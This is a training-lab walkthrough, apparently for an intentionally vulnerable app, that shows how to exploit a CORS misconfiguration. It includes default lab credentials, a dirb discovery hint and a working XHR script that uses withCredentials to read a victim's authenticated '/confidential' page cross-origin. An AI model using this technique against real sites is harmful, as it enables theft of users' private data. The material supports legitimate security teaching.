 # CORS misconfiguration

CORS defines a way in which a browser and server can interact to determine whether or not it is safe to allow the cross-origin request. It allows for more freedom and functionality than purely same-origin requests.

We find a lot of vulnerabilities these days that have CORS misconfigured.
This misconfiguration allows to make XHR get requests on an authenticated users behalf
and steal sensitive information from the server!

### Objectives

* Read sensitive information from the "/confidential" page by means of exploiting the misconfigured CORS settings

#### The issue?

Rather than explaining myself please refer to the following blog to read all about the 
issue at hand:

The source is found [here](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)


### Spoiler 1 - discovery

You can find the vulnerable link after loggin in with either:

```
link: http://0.0.0.0:8081/login
user : admin:admin
```

Or by finding a obscure backdoor by running "dirb" against the web-server


Please refer to the following page:

```
http://0.0.0.0:8081/confidential
```

Here we will find this page:

![target page](../img/cors-page.png)

Whenever we do a GET request on this page and we add an origin header to the request we 
create the following response.

![request/response](../img/req-resp-cors.png)


### Spoiler 2 - exploitation

Now, the idea is to make an XHR GET request on the authenticated users' behalf

To do so we create a HTML page with the following script in it:

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'http://0.0.0.0:8081/confidential', true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        document.getElementsByTagName("p")[0].innerHTML = req.responseText;
    }
</script>

<p></p>
```

This script will make a cross origin request to the target application and puts the output of the 
response in the paragrapgh tags.

Now, this attack works pretty much like CSRF, it leans on the behaviour of your browsers cookie jar
and the appending of the session cookie to requests. 

Remeber this CORS header

```
Access-Control-Allow-Credentials: true
```
This header wil ultimately help us achieve our goal!

Now look at the result:

![result](../img/cors-result.png)

Highlighed in red we see the target page. If you look at what is highlighted in blue you see
this is just a local HTML file that does the XHR get request to the target server.

Highlighted in purple you see the super secret information as a result.

*Disclaimer:* In a real situation you wil most likely need to build your own small web-server
to do the XHR GET request from. 